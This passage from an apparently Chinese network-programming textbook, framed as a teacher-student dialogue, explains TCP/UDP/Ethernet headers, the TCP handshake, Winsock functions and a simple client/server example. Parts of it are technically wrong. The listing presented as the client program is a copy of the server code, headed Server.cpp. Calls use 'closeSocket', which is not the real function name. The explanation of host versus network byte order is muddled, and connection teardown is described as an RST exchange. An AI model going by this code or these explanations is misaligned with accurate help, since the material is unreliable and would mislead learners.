- 8. 校验和用于验证传输的正确。计算方法为，首先将校验和的字段置 0，然后将 IP 头的每 16 位进行二进制取反求和，将结果保存在校验字段。验证的方法是按照相同的方法取反求和，得到的结果应该是每位全是 1，如果不是这样，则表示数据传输出错，就丢包并要求重发。
- 9. 源 IP 地址和目标 IP 地址表示源主机的 IP 和目的主机的 IP，都为网络字节顺序。

在 IP 协议之上，就是 TCP 协议了，TCP 协议中最重要的概念是端口。

### 端口地址的独白：

哈哈，我是端口地址，就是 port，是 TCP 的手下。我的作用是区分机器上的各种服务。服务器要提供服务，必须要打开对应的端口——像 FTP 服务是 21 端口，Web 服务是 80 端口。有了端口，客户端才可以连接、传输数据。IP 有什么了不起，一台机器可能有好几十种服务，没有我端口和 TCP，它根本不知道数据该往哪个服务走。附图我在 TCP 中的位置，大家一定要记住哦，如图 2-13。

TCP 协议是面向连接、可靠的通信协议。它通过发送分组接收应答，来得知接收方已经接收到数据分组，通过序列化，保证分组按顺序到达。

协议段的解释如下：

- 1. 源端口号：网络字节顺序，指明源端口号；
- 2. 目的端口号：网络字节顺序，指明目的端口号；
- 3. 序号：TCP 发送方向接收方发送的封包顺序号；
- 4. 确认序号：接收方回发的应答顺序号；
- 5. 首部长度：表示 TCP 头的 DWORD 个数，如果转化为字节数要乘以 4，比如 TCP 头部长为 20 个字节，则这个值为 5；
- 6. URG：是否使用应急指针，0 为不使用，1 为使用；
- 7. ACK：请求/应答状态，0 为请求，1 为应答；
- 8. PSH：以最快的速度传输数据；
- 9. RST：连线复位。首先断开连接，然后重建连接；
- 10. SYN：同步连接，用来建立连接。如果 ACK 同时为 0，是连接请求，ACK 为 1 表示连接应答；
- 11. FIN：结束连接。如果 ACK 同时为 0，是结束连接请求，ACK 为 1 表示结束连接应答；
- 12. 窗口大小：流量控制。发起连接端提供的窗口大小，窗口大小为字节数。
- 13. 校验和：用来验证传输的正确。和 IP 的头部校验和有所不同，这里不仅对头部，还对封包内容进行校验，我们会在后面详细提到如何计算；
- 14. 紧急指针：URG 为 1 时紧急指针才有效。紧急指针是一个偏移量，和序号字段相加表示紧急数据最后一个字节的序号。TCP 的紧急方式是发送紧急数据的一种方式。

“SYN、ACK、FIN、RST 是通信双方建立 TCP 连接的必用状态。”

“建立 TCP 连接的著名三次握手过程如图 2-14 所示。”

“客户端发送一个 SYN 包请求连接，如果对方服务开放，就会回应 SYN/ACK，客户端再发送一个 ACK 完成连接；如果对方没有开放服务端口，就会回应 RST/ACK，客户端则发送一个 RST。而断开 TCP 连接的过程如图 2-15 所示。”


“断开连接时，任何一方都可以发送 RST 给对方，对方回送一个 RST/ACK，连接关闭。这些 SYN、FIN 就是 TCP 协议中的标志位。”

这个时候老师说道：“我们可以在命令行下输入 `netstat -an` 命令来查看网络通信的连接状态。比如，我电脑上的状态如图 2-16 所示。”

“大家可以看到，有 SYN_SENT 连接发送、TIME_WAIT 等待、ESTABLISHED 连接建立成功等各种各样的状态，这和协议中的规定是完全一致的。”

“哦！真的是啊！”

“不过一般情况下，我们基于应用层开发，是不用去管理这些标志位的设置的，系统会自动为我们完成下面层次的填写，这就是分层思想给我们带来的巨大好处。不然，哪怕只是传输一个字节，都会变成无比浩大的工程。好了，我们来看看其它重要的协议。和 TCP 协议对应的，是 UDP 协议，如图 2-17。”


“UDP 是非面向连接、不可靠的传输协议。不可靠是指 UDP 只管发送，不保证数据报能安全无误地到达最终目的，所以数据的完整需要上层来考虑实现。”

“UDP 的协议较简单，包括以下几个字段：”

- 1. 源端口号：为网络字节顺序，表示源端口；
- 2. 目的端口号：为网络字节顺序，表示目的端口；
- 3. UDP 长度：UDP 头和数据的总长度；
- 4. 校验和：和 TCP 校验和一样，不仅对头数据进行校验，还对封包内容检验。将在后面详细讲到。


“最后是以太网头部的格式，如图 2-18。”

“先是 6 byte 的目的 MAC 地址，然后是 6 byte 的源 MAC 地址。协议类型字段，0800 表示 IP 数据报，0806 表示 ARP 请求/应答；8035 表示 RARP 请求/应答。再后面就是对应协议类型的数据了。”


“好了，我们将 OSI 和 TCP/IP 作个对比吧，结果如图 2-19 所示。”

“看起来 OSI 是更完善一些啊？”小菜们说道，“但大家居然不用它！”

“是的，俗话说得好，出名要趁早。这句话是很对的。TCP/IP 就是比 OSI 先出道几年，占据了市场应用的绝对优势，成为……”


了事实上的标准，就是这句话最好的阐述！所以大家也要抓紧时间努力啊，争取比周围人领先十年吧！”

“十年？”小菜们面面相觑。

“立志高一点，行动跟上，大家一定会成功的！”

### 2.2.3 TCP/IP 通信流程

“回过头来，我们使用 TCP/IP 协议进行通信时，就是每层完成自己对应的功能和处理。具体说来，每层依次将上层传来的数据进行封装，加上本层的协议头，然后一层一层往下传，直到物理层，封装过程如图 2-20 所示。”

“到达物理层后，物理层负责实际物理链路的连接，完成数据的发送和接收。接收方收到数据后，每层又依次解包往上层传，直到应用层得到应用数据。”

老师说道：“这里只是讲解了 TCP/IP 最基本的东西，大家如果想进一步了解 TCP/IP 协议簇，可以参看著名的《TCP/IP 详解 卷1：协议》。但……可惜啊可惜……”

“怎么又可惜啊？”小菜们以为老师牙痛，拿出块牙药就要往老师脸上贴。

老师把手一挥，“不是，我可惜的是书的作者 Stevens……Stevens 虽然没写过任何黑客程序，但他却是世界上最好的黑客！可惜的是 Stevens 英年早逝，天妒英才，故而叹息啊。”

小菜们都睁大了嘴巴：“最好的黑客？他黑了什么啊？”

“他也没黑过什么。其实，媒体的宣传把黑客这个词误解了。黑客的本意是对高深技术充满兴趣，研究掌握并无私公布的人。而真正的黑客精神，就是不断地深入研究技术，创新并共享。从这个意义上讲，任何方面有造诣的人都可以称为黑客，比如对硬件 DIY 充满兴趣，手动超频追求提升的人，他们也是黑客！”

“哦！原来是这样啊！”

“这也应该是我们追求的目标。希望大家在技术上有什么发现时，一定要公布出来，让别人，在你的基础上继续发展。否则，即使你掌握了最新的技术，也会很快过时的。”老师说道。

小菜们点点头。

“好了，这部分比较偏概念一点，但的确是很重要的东西。当大家遇到问题时，可以多翻翻这部分的内容。科学家们的付出，一定是有道理的。相信我，你们真正进行网络程序开发时，一定会复习这部分内容的！好了，大家回去复习一下。下次我们讲解如何使用 WinSocket 进行实际的编程。”

## 2.3 Windows Socket 编程

“哇！怎么都这么早啊。”老师一进教室，看见小菜们坐得整整齐齐，吓了一跳。

小菜们坏坏地答道：“因为老师帅得惊天地，泣鬼神，吸引着我们的到来啊。”

老师大汗：“我长得有这么鬼斧神工吗？”

“呵呵，上次不是说要讲实际的编程吗？我们怕来晚了落下课就不好理解了，所以特意早点来给老师捧场啊。”

“唉，原来这样啊，我还以为走错教室了。不错，不错，大家真是树立良好学风的楷模，开展保先运动的排头兵啊。比我们那个时候勤奋多了。真是长江后浪推前浪，前浪死在沙滩上……”

“既然大家都很有兴趣，我们就直接切入正题吧。”老师理理嗓子，说道，“Socket 的中文名是套接字，而 WinSocket 就是指 Windows 下的套接字。由于 WinSocket 本身是一个工程上的东西，仅从理论上不好理解，所以我们结合实际工程讨论吧。”

### 2.3.1 Socket 介绍

### Socket 的独白：

我是 Socket，为自由而生，我不属于任何协议，因为不是 ISO 或 IEEE 创造的我，我诞生在加利福尼亚大学伯克利分校（Berkeley）的实验室中。他们赋予了我连接不同配置、不同系统计算机通信的能力，他们说：这是为了自由！我做到了。如果说 IP 是确定通信主机的位置，端口是确定通信主机的服务，那么我——Socket，就是确定通信具体的进程了。虽然 IP 和端口可以唯一地区分网络上的每台主机和服务，但是每台主机的同一个程序，可以同时和多台机器通信，比如 QQ、IE，就有可能同时和几台甚至几十台机器连接。所以每一个通信，都要使用我——Socket 来标明每一个通信的进程。每次在我的带领下，IP 和端口就会找到它们对应的进程。

在它们安装好数据，核对清楚的时候，我就会一个人默默地走开，看风的影子，等它们完成工作招呼我的时候，我又会飘来荡去一样，一句话也不说地带它们离开。周而复始，行若无疆！

“让我们回到课堂上来吧。”老师唤回了遐想中的同学们，指着下图说，“下面就是使用 IP 地址和标识符 Socket 来标明每一个通信的进程的示意图，如图 2-21。”

“其实大家可以把 Socket 理解成一种特殊的文件，对 Socket 的操作就相当于对文件的操作。Socket 具有一个类似于打开文件的函数调用——socket()，该函数返回一个整型的 Socket 描述符，随后的传输数据、接收数据就像文件写入、文件读出一样，都通过该 Socket 描述符来实现。”

“哦，Socket 的目的就是为了便于不同的机器编程通信嘛。”小菜们说道，“那为什么还要有一个什么 WinSocket 呢？”

“还不是因为微软是老大嘛，微软在伯克利 Socket 的基础上，提出了 Windows 下编程用的 Socket，即 WinSocket。”

### 2.3.2 Windows Socket 和必用函数

“单从编程的角度看，WinSocket 基本上和标准的伯克利 Socket 一致，只有一些稍许的区别。使用 Windows Socket 编程时的必用函数如下。”

#### 一、WSAStartup 函数

原型：

```c
int WSAStartup(
    WORD wVersionRequested,
    LPWSADATA lpWSAData
);
```

使用 Socket 的程序在使用 Socket 之前必须调用 WSAStartup 函数，初始化 Windows Socket DLL，否则后面的任何函数都将调用失败。

第一个参数 wVersionRequested 指明程序请求使用的 Socket 版本，其中高位字节指明副版本、低位字节指明主版本；第二个参数 lpWSAData 指向 WSADATA 结构的指针，返回系统 Socket 的版本信息。

当一个应用程序调用 WSAStartup 函数时，操作系统根据请求的 Socket 版本来搜索相应的 Socket 库，然后绑定找到的 Socket 库到该应用程序中。以后应用程序就可以调用所请求的 Socket 库中的其他 Socket 函数了。该函数执行成功后返回 0。

例：假如一个程序要使用 2.1 版本的 Socket，那么程序代码如下：

```c
WSADATA wsaData;
DWORD wVersionRequested = MAKEWORD(2, 1);
err = WSAStartup(wVersionRequested, &wsaData);
```

#### 二、WSACleanup 函数

原型：

```c
int WSACleanup(void);
```

该函数参数为空。应用程序在完成对请求的 Socket 库的使用后，要调用 WSACleanup 函数来解除与 Socket 库的绑定并且释放 Socket 库所占用的系统资源。该函数一般用在网络程序结束的地方调用。

#### 三、socket 函数

原型：

```c
SOCKET socket(
    int af,
    int type,
    int protocol
);
```

应用程序调用 socket 函数来创建一个能够进行网络通信的套接字。

| 参数 | 说明 |
|---|---|
| af | 协议族 |
| type | 套接字类型 |
| protocol | 协议 |
| 示例 | socket(PF_INET, SOCK_STREAM, IPPROTO_TCP) |

#### 四、closesocket 函数

原型：

```c
int closesocket(
    SOCKET s
);
```

closesocket 函数用来关闭一个描述符为 s 的套接字。参数 s 表示要关闭的套接字。

由于每个进程中都有一个套接字描述符表，表中的每个套接字描述符都对应了一个位于操作系统缓冲区中的套接字数据结构，因此有可能有几个套接字描述符指向同一个套接字数据结构。套接字数据结构中专门有一个字段存放该结构的被引用次数，即有多少个套接字描述符指向该结构。当调用 closesocket 函数时，操作系统先检查套接字数据结构中的该字段的值，如果为 1，就表明只有一个套接字描述符指向它，因此操作系统就先把 s 在套接字描述符表中对应的那条表项清除，并且释放 s 对应的套接字数据结构；如果该字段大于 1，那么操作系统仅仅清除 s 在套接字描述符表中的对应表项，并且把 s 对应的套接字数据结构的引用次数减 1。closesocket 函数如果执行成功就返回 0，否则返回 SOCKET_ERROR。

#### 五、send 函数

原型：

```c
int send(
    SOCKET s,
    const char FAR *buf,
    int len,
    int flags
);
```

不论是客户端还是服务器的应用程序都用 send 函数来向 TCP 连接的另一端发送数据。客户程序一般用 send 函数向服务器发送请求，而服务器则通常用 send 函数来向客户程序发送应答。

该函数的第一个参数 s 指定发送端套接字描述符；第二个参数 buf 指明一个存放应用程序要发送数据的缓冲区；第三个参数 len 指明实际要发送的数据的字节数；第四个参数 flags 一般置 0。

对于同步 Socket 的 send 函数的执行流程为：当调用该函数时，send 先比较待发送数据的长度 len 和套接字 s 的发送缓冲区的长度。如果 len 大于 s 的发送缓冲区的长度，该函数返回 SOCKET_ERROR，发送失败；如果 len 小于或者等于 s 的发送缓冲区的长度，那么 send 先检查协议是否正在发送 s 的发送缓冲中的数据，如果是就等待协议把数据发送完；如果协议还没有开始发送 s 的发送缓冲中的数据或者 s 的发送缓冲中没有数据，那么 send 就比较 s 的发送缓冲区的剩余空间和 len，如果 len 大于剩余空间大小，send 就一直等待协议把 s 的发送缓冲中的数据发送完；如果 len 小于剩余空间大小，send 就仅仅把 buf 中的数据 copy 到剩余空间里（注意并不是 send 把 s 的发送缓冲中的数据传到连接的另一端的，而是协议传的，send 仅仅是把 buf 中的数据 copy 到 s 的发送缓冲区的剩余空间里）。如果 send 函数 copy 数据成功，就返回实际 copy 的字节数；如果 send 在 copy 数据时出现错误，那么 send 就返回 SOCKET_ERROR；如果 send 在等待协议传送数据时网络断开的话，那么 send 函数也返回 SOCKET_ERROR。

要注意 send 函数把 buf 中的数据成功 copy 到 s 的发送缓冲的剩余空间里后它就返回了，但是此时这些数据并不一定马上被传到连接的另一端。如果协议在后续的传送过程中出现网络错误的话，那么下一个 Socket 函数就会返回 SOCKET_ERROR（每一个除 send 外的 Socket 函数在执行的最开始总要先等待套接字的发送缓冲中的数据被协议传送完才能继续，如果在等待时出现网络错误，那么该 Socket 函数就返回 SOCKET_ERROR）。

#### 六、sendto 函数

原型：

```c
int sendto(
    SOCKET s,
    const char *buf,
    int len,
    int flags,
    const struct sockaddr *to,
    int tolen
);
```

sendto 函数用于无连接，比如 UDP 数据的发送。

该函数的第一个参数 s 指定发送端套接字描述符；第二个参数 buf 指明一个存放应用程序要发送数据的缓冲区；第三个参数 len 指明实际要发送的数据的字节数；第四个参数 flags 一般置 0；第五个参数 to 为指向目的地址的指针；第六个参数 tolen 为 to 的长度。

因为在无连接的情况下，本地 Socket 并没有和远程机器建立连接，所以在发送数据时应指明目的地址，因此 sendto 比 send 函数多了两个参数，to 表示目的机的 IP 和端口，而 tolen 一般赋为 sizeof(struct sockaddr)。

#### 七、recv 函数

原型：

```c
int recv(
    SOCKET s,
    char FAR *buf,
    int len,
    int flags
);
```

不论是客户还是服务器应用程序都用 recv 函数从 TCP 连接的另一端接收数据。

该函数的第一个参数 s 指定接收端套接字描述符；第二个参数 buf 指明一个缓冲区，该缓冲区用来存放 recv 函数接收到的数据；第三个参数 len 指明 buf 的长度；第四个参数 flags 一般置 0。

对于同步 Socket 的 recv 函数的执行流程为：当应用程序调用 recv 函数时，recv 先等待 s 的发送缓冲中的数据被协议传送完毕，如果协议在传送 s 的发送缓冲中的数据时出现网络错误，那么 recv 函数返回 SOCKET_ERROR；如果 s 的发送缓冲中没有数据或者数据被协议成功发送完毕后，recv 先检查套接字 s 的接收缓冲区，如果 s 接收缓冲区中没有数据或者协议正在接收数据，那么 recv 就一直等待，直到协议把数据接收完毕。当协议把数据接收完毕，recv 函数就把 s 的接收缓冲中的数据 copy 到 buf 中（注意协议接收到的数据可能大于 buf 的长度，所以在这种情况下要调用几次 recv 函数才能把 s 的接收缓冲中的数据 copy 完。recv 函数仅仅是 copy 数据，真正的数据接收是协议来完成的）。recv 函数返回实际 copy 的字节数，如果 recv 在 copy 时出错，那么它返回 SOCKET_ERROR；如果 recv 函数在等待协议接收数据时网络中断了，那么它返回 0。

#### 八、recvfrom 函数

原型：

```c
int recvfrom(
    SOCKET s,
    char *buf,
    int len,
    int flags,
    struct sockaddr *from,
    int *fromlen
);
```

recvfrom 函数用于无连接，比如 UDP 数据的接收。

该函数的第一个参数 s 指定接收端套接字描述符；第二个参数 buf 指明一个缓冲区，该缓冲区用来存放 recv 函数接收到的数据；第三个参数 len 指明 buf 的长度；第四个参数 flags 一般置 0；第五个参数 from 为数据包的来源地址；第六个参数 fromlen 为 from 的长度。

因为在无连接的情况下，本地 Socket 并没有和远程机器建立连接，所以接收到 UDP 数据时，要通过 from 参数来判断来源。

#### 九、bind 函数

原型：

```c
int bind(
    SOCKET s,
    const struct sockaddr FAR *name,
    int namelen
);
```

当创建了一个 Socket 后，套接字数据结构中有一个默认的 IP 地址和默认的端口号。一个服务程序必须调用 bind 函数来给其绑定一个 IP 地址和一个特定的端口号。客户程序一般不必调用 bind 函数来为其 Socket 绑定 IP 地址和端口号。

该函数的第一个参数 s 指定待绑定的 Socket 描述符；第二个参数 name 指定一个 sockaddr 结构，该结构是这样定义的：

```c
struct sockaddr {
    u_short sa_family;
    char sa_data[14];
};
```

sa_family 指定地址簇，对于 TCP/IP 协议簇的套接字，为其设置为 AF_INET。当对 TCP/IP 协议簇的套接字进行绑定时，我们通常使用另一个地址结构：

```c
struct sockaddr_in {
    short sin_family;
    u_short sin_port;
    struct in_addr sin_addr;
    char sin_zero[8];
};
```

其中 sin_family 置为 AF_INET；sin_port 指明端口号；sin_addr 结构体中只有一个唯一的字段 s_addr，表示 IP 地址，该字段是一个整数，一般用函数 inet_addr() 把字符串形式的 IP 地址转换成 unsigned long 型的整数数值后再置给 s_addr。有的服务器是多宿主机，至少有两个网卡，那么运行在此类服务器上的服务程序在为其 Socket 绑定 IP 地址时可以把 htonl(INADDR_ANY) 置给 s_addr，这样做的好处是不论哪个网段上的客户程序都能与该服务程序通信；如果只给运行在多宿主机上的服务程序的 Socket 绑定一个固定的 IP 地址，那么就只有与该 IP 地址处于同一个网段上的客户程序才能与该服务程序通信。我们用 0 来填充 sin_zero 数组，目的是让 sockaddr_in 结构的大小与 sockaddr 结构的大小一致。下面是一个 bind 函数调用的例子：

```c
struct sockaddr_in saddr;
saddr.sin_family = AF_INET;
saddr.sin_port = htons(8888);
saddr.sin_addr.s_addr = htonl(INADDR_ANY);
bind(ListenSocket, (struct sockaddr *)&saddr, sizeof(saddr));
```

#### 十、listen 函数

原型：

```c
int listen(SOCKET s, int backlog);
```

服务器程序可以调用 listen 函数使其流套接字 s 处于监听状态。处于监听状态的流套接字 s 将维护一个客户连接请求队列，该队列最多容纳 backlog 个客户连接请求。

假如该函数执行成功，则返回 0；如果执行失败，则返回 SOCKET_ERROR。

#### 十一、accept 函数

原型：

```c
SOCKET accept(
    SOCKET s,
    struct sockaddr FAR *addr,
    int FAR *addrlen
);
```

服务器程序调用 accept 函数从处于监听状态的流套接字 s 的客户连接请求队列中取出排在最前的一个客户请求，并且创建一个新的套接字来与客户套接字创建连接通道；如果连接成功，就返回新创建的套接字的描述符，以后与客户套接字交换数据的是新创建的套接字；如果失败就返回 INVALID_SOCKET。

该函数的第一个参数 s 指定处于监听状态的流套接字；操作系统利用第二个参数 addr 来返回新创建的套接字的地址结构；操作系统利用第三个参数 addrlen 来返回新创建的套接字的地址结构的长度。下面是一个调用 accept 的例子：

```c
struct sockaddr_in ServerSocketAddr;
int addrlen;
addrlen = sizeof(ServerSocketAddr);
ServerSocket = accept(ListenSocket, (struct sockaddr *)&ServerSocketAddr, &addrlen);
```

#### 十二、connect 函数

原型：

```c
int connect(
    SOCKET s,
    const struct sockaddr FAR *name,
    int namelen
);
```

客户程序调用 connect 函数来使客户 Socket s 与监听于 name 所指定的计算机的特定端口上的服务 Socket 进行连接。如果连接成功，connect 返回 0；如果失败则返回 SOCKET_ERROR。

下面是一个例子：

```c
struct sockaddr_in daddr;
memset((void *)&daddr, 0, sizeof(daddr));
daddr.sin_family = AF_INET;
daddr.sin_port = htons(8888);
daddr.sin_addr.s_addr = inet_addr("39.197.22.*");
connect(ClientSocket, (struct sockaddr *)&daddr, sizeof(daddr));
```

#### 十三、inet_addr 函数

原型：

```c
unsigned long inet_addr(const char FAR *cp);
```

把形如 xxx.xxx.xxx.xxx 的 10 进制 IP 地址转换为 32 位（按网络字节排列顺序）整数表示方法。cp 为指向用 xxx.xxx.xxx.xxx 的 10 进制来表示的 IP 地址字符串的指针，当函数成功调用时返回用 32 位整数表示的 IP 地址（按网络字节排列顺序），失败时返回 INADDR_NONE。举个例子：

```c
struct sockaddr_in their_addr;
their_addr.sin_addr.s_addr = inet_addr("127.1.2.3");
```

代码执行后，their_addr.sin_addr.s_addr 的值为 0x0302017f，其中 0x7f 就是 127，而 0x01、0x02、0x03 就是 1、2、3。所以点分式和 16 进制表示是我们自己都可以验证出来的。

最后，就见老师拍了拍手，说道：“终于介绍好了。”

> “哇！老师在哪儿抄的函数说明啊，一大堆一大堆的……”小菜们嚷道，“这可怎么记啊！”

> “……这个，主要是 Socket 和 Windows Socket 都不是俺设计的……是那些制定接口的人早已规定好了的。无法创造性地说明它们，只能这么引用它们了……”老师回答道，“其实，这些函数大家不要死记，用的时候查 MSDN 就好了。我也不想这么列出来，但为了方便初学者以及保证课程的完整性，顺便照顾英文不好的同学，就只有这样了……”

> “哦，是吗？好辛苦啊……”

## 2.4 传送掌——网络编程例子之一

“OK，现在我们有了 Socket，有了函数，是大展身手的时候了，现在我们把这些知识点串起来，编写一个实际的网络程序。”

“有了伯克利的工作，我们使用 Socket 实现网络通信编程是非常方便的。通信通信，必然是两台计算机间的事情。传统的通信模式是 C/S 模式。需要有一台是服务端，一台是客户端。服务端首先启动，建立一个套接字 Socket，并对相应的 IP 和端口进行绑定、监听；客户端也建立一个套接字，它直接连接服务端监听的端口；双方连接建立后，服务端和客户端就可以互相传输数据了。当然操作都是通过 Socket 来完成的。下面就是套接字在编程时实际使用的方法。”

### 2.4.1 服务端流程

“服务端和客户端通信的工作流程如图 2-22 所示。”


“对于 Windows 下的程序，最前面还有一个 WSAStartup() 的过程，初始化 Windows Socket DLL。”

> “待我们具体地看来。”老师不紧不慢地说道，“先是初始化 Windows Socket DLL。”

```c
WSAStartup(MAKEWORD(2,2),
    &ws
);
```

然后建立 Socket：

```c
sockfd = socket(AF_INET,
    SOCK_STREAM,
    0
);
```

再 bind 本机的 830 端口：

```c
my_addr.sin_family = AF_INET;
my_addr.sin_port = htons(830);
my_addr.sin_addr.s_addr = INADDR_ANY;
bind(sockfd,
    (struct sockaddr *)&my_addr,
    sizeof(struct sockaddr)
);
```

接下来监听端口：

```c
listen(sockfd,
    BACKLOG
);
```

如果有客户端的连接请求，则接受它，并生成新的 Socket——new_fd。

```c
new_fd = accept(sockfd,
    (struct sockaddr *)&their_addr,
    &sin_size
);
```

最后发送 ww0830 字符串过去。

```c
send(new_fd,
    "ww0830\n",
    7,
    0
);
```

收尾工作，关闭 Socket：

```c
closeSocket(sockfd);
closeSocket(new_fd);
```

### 2.4.2 服务端测试

> “流程讲解完毕，把程序合起来，就是这样子的。”老师在墙上投影出整个程序。

```c
// Server.cpp：定义控制台应用程序的入口点。
//
#include "stdafx.h"
#include <stdio.h>
#include <winsock.h>
#pragma comment(lib, "ws2_32")
#define BACKLOG 10 /* 多少等待连接控制 */

int _tmain(int argc, _TCHAR* argv[])
{
    int sockfd, new_fd;
    struct sockaddr_in my_addr;
    struct sockaddr_in their_addr;
    int sin_size;
    WSADATA ws;

    WSAStartup(MAKEWORD(2,2), &ws);

    // 建立 Socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // bind 本机的 MYPORT 端口
    my_addr.sin_family = AF_INET;
    my_addr.sin_port = htons(830);
    my_addr.sin_addr.s_addr = INADDR_ANY; /* 本机IP */
    bind(sockfd, (struct sockaddr *)&my_addr, sizeof(struct sockaddr));

    // listen，监听端口
    listen(sockfd, BACKLOG);
    printf("listen......");

    // 等待客户端连接
    sin_size = sizeof(struct sockaddr_in);
    new_fd = accept(sockfd, (struct sockaddr *)&their_addr, &sin_size);

    // 有连接，发送“ww0830”字符串过去
    send(new_fd, "ww0830\n", 7, 0);
    printf("send ok!\n");

    // 成功，关闭套接字
    closeSocket(sockfd);
    closeSocket(new_fd);
    return 0;
}
```


“哇！果然都是对 Socket 的操作啊。”小菜们感叹道。

“大家注意，为了突出整个流程，程序没有加任何的错误判断和处理。但在实际程序中，错误处理是很重要的部分，大家一定要重视！”

“也就是说，我们应该在 socket()、bind()、listen()、accept()、send() 这些函数执行后，马上判断其返回值是否成功。如果发现失败，那么应该作相应的处理，甚至退出程序，不再执行下面的操作。”

“嗯。”小菜们点点头，“可不可以看下效果呢？”

“当然可以了，我们在 VC++2003 中建立一个新的 Win32 控制台项目，起名为 server，在 server.cpp 中写入上面的那些代码，编译、执行，程序就会一直监听 830 端口，如图 2-23。”

“测试一下吧，在另一台电脑上，进入命令行界面，输入‘telnet 服务器IP 830’，我的服务器 IP 地址是 192.168.0.249，那就像图 2-24 一样地输入命令。”

“敲回车，啪！telnet 客户端成功地收到了服务器发来的 ww0830 字符串，并显示在了屏幕上，如图 2-25。而在服务端也显示传输成功，如图 2-26。”

“鸟啦！成功了！”小菜们欢呼起来。

“呵呵，是啊。不过刚才客户端使用的 telnet 程序是 Windows 系统自带的。我们也可以自己实现一个客户端程序，来实现通信。”老师说道。

### 2.4.3 客户端流程

“根据流程图，客户端的流程为 Socket()->connect()->send()/recv()->closeSocket()。”

“哎，好像比服务端简单啊。”大家对比了一下，说道。

“是的，客户端只是在连接服务端就可以了，所以更简单。重点还是流程，我们也把脉络提出来过一遍吧。”老师说道。

首先是初始化 Windows Socket DLL：

```c
WSAStartup(MAKEWORD(2,2),
    &ws
);
```

然后建立 Socket：

```c
sockfd = socket(AF_INET,
    SOCK_STREAM,
    0
);
```

接着填写地址信息并连接服务器：

```c
their_addr.sin_family = AF_INET;            // 协议类型是 INET
their_addr.sin_port = htons(830);           // 连接服务端的 830 端口
their_addr.sin_addr.s_addr = inet_addr(argv[1]); // 连接服务端的 IP

connect(sockfd,
    (struct sockaddr *)&their_addr,         // 连接服务端的地址信息
    sizeof(struct sockaddr)                 // sockaddr 结构的大小
);
```

如果连接成功就接收数据：

```c
recv(sockfd,
    buf,            // 接收数据存放的缓冲区
    MAXDATASIZE,    // 接收数据的最大长度
    0               // flags 设为 0
);
```

最后把收到的数据打印出来并关闭套接字：

```c
printf("Received: %s", buf); // 打印接收到的数据
closeSocket(sockfd);         // 关闭套接字
```

“这儿的 htons(830)、inet_addr(argv[1]) 把本地数据格式的端口和 IP 地址转换成网络数据格式。argv[1] 是指程序执行时带的第一个参数。执行时，要像下面这样执行，把服务端的 IP 作为程序的参数。”老师演示道，如图 2-27。


图 2-27

“这时候‘192.168.0.249’就是 int main(int argc, char *argv[]) {} 里面 argv[1] 的内容。我们把上面的代码合起来，同服务端一起执行吧。”

### 2.4.4 客户端实现和联调

“客户端完整的代码为 client.cpp，大家还是在 VC++2003 中建立一个新的名为 client 的 Win32 控制台项目，将下面的代码嵌入到 client.cpp 文件中。”

```c
// Server.cpp：定义控制台应用程序的入口点。
//
#include "stdafx.h"
#include <stdio.h>
#include <winsock.h>
#pragma comment(lib, "Ws2_32")
#define BACKLOG 10 // 等待连接控制

int _tmain(int argc, _TCHAR* argv[])
{
    int sockfd, new_fd; // 定义套接字
    struct sockaddr_in my_addr; // 本地地址信息
    struct sockaddr_in their_addr; // 连接者地址信息
    int sin_size;
    WSADATA ws;
    WSAStartup(MAKEWORD(2,2), &ws); // 初始化 Windows Socket DLL

    // 建立 Socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // bind 本机的 MYPORT 端口
    my_addr.sin_family = AF_INET; // 协议类型是 INET
    my_addr.sin_port = htons(830); // 绑定 MYPORT 端口
    my_addr.sin_addr.s_addr = INADDR_ANY; // 本机 IP
    bind(sockfd, (struct sockaddr *)&my_addr, sizeof(struct sockaddr));

    // listen，监听端口
    listen(sockfd, BACKLOG);
    printf("listen......");

    // 等待客户端连接
    sin_size = sizeof(struct sockaddr_in);
    new_fd = accept(sockfd, (struct sockaddr *)&their_addr, &sin_size);

    // 有连接，发送 "ww0830" 字符串过去
    send(new_fd, "ww0830\n", 7, 0);
    printf("send ok!\n");

    // 成功，关闭套接字
    closeSocket(sockfd);
    closeSocket(new_fd);
    return 0;
}
```

“连起来测试一下。我们还是先打开服务端的程序，让它监听端口；再运行客户端的程序去连接它，其效果如图 2-28。”

“哦！又收到服务器发的数据了。”同学们高兴地说道。

“我有点儿明白了，编程就是用一系列的函数，完成构思的流程图中的每个部分。”菜鸟 B 感悟地说道，“所以思路才是关键。”


图 2-28

“总结得太好了！”老师赞扬道：“程序的本质，是算法加数据结构。算法就是流程图，数据结构就是定义适当的变量来调用适合的函数。”

“当然，如果作为一个软件，就不局限于此了。软件追求的是满足用户提出的需求，并提供给用户人性化的界面，而且软件开发过程中的软件工程和质量保证也是非常重要的。”老师认真地补充道。

“好了，经过这节课的学习，我们清楚了网络通信的基本概念，知道了如何编程实现数据在网络上的传输。这一点可以用在端口扫描程序、漏洞扫描程序、漏洞利用程序等任何网络程序中，给目标机发送命令并接收返回的结果。下节课中，我们将会介绍 Socket 编程中的一些细节以及网络编程的更多例子。路漫漫兮，大家休息一下！”

## 2.5 Socket 编程的一些细节

“计算机的网络编程，其实就是用 Socket 来进行编程。有了这些思想流程和函数，我们就可以像搭积木一样，用函数把流程搭起来。”老师说道，“但是，还是有一些细节需要再强调一下！”

### 2.5.1 主机字节顺序和网络字节顺序

“要进行网络程序编程，首先要注意主机字节顺序和网络字节顺序的区别。在本地 PC 机上，是按照高位存高地址的原则，比如 0x12345678，其中 0x12 为最高位，0x78 为最低位，根据这个原则，存储的顺序应该是这样，如图 2-29。”


图 2-29

“但网络上正好相反，它是按 32 位由低到高地读取。也就是先为 0~7 bit，其次为 8~15 bit，然后为 16~23 bit，最后为 24~31 bit。这样的话，上边那个例子就会被认为是 0x78563412。这种传输次序称作 big endian 字节序。由于 TCP/IP 首部中所有的二进制整数在网络中传输时都要求以这种次序，因此它又称作网络字节序。”

“对于我们应用层的数据，这种读法不会改变数据在内存中的位置顺序，是什么，就会发过去什么；接收方也再按主机字节读，数据并不会改变，所以应用层数据不用搭理这个问题。但 IP 首部、TCP 首部里面，我们自己填入的数据，比如 IP、端口等，就都需要转换成网络字节序了。”

“可以使用如下几个函数将主机字节序转换成网络字节序。”

原型：

```c
u_short htons(
    u_short hostshort
);
```

参数 hostshort 是主机字节序的无符号短整型。

htons 函数的返回值是参数 hostshort 转换成网络字节序后的值。

原型：

```c
u_long htonl(
    u_long hostlong
);
```

参数 hostlong 是主机字节序的无符号长整型。

